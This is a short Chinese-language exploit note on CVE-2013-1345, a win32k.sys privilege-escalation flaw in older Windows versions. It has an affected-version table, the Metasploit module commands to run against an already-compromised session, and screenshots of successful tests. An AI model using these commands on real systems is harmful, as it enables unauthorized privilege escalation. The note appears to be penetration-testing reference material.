 ### CVE-2013-1345

#### 描述

内核模式驱动程序中的win32k.sys不会 正确处理内存中的对象，这允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         | SP1    | &#10004; |
| Windows 8           |                  |         |        |                    |
| Windows Rt          |                  |         |        |                    |
| Windows Server 2003 |                  |         | SP2    |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

> X86利用

测试系统Windows 7 SP1 x86 ，直接使用msf即可，我们当机器已经上线了

```
use exploit/windows/local/ms13_053_schlamperei
set SESSION 2 #你上线机器的session
run
```

![image-20200822151416515](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win7_x86.png?raw=true)

Windows Sever 2003 SP2 x86 和Windows Sever 2003 R2 SP2 x86都测试成功，但是利用文件没有源码只有exe可执行文件

Windows Sever 2003 SP2 x86 动图如下

![17](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86.gif?raw=true)

Windows Sever 2003 R2 SP2 x86 动图如下

![18](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86_2.gif?raw=true)


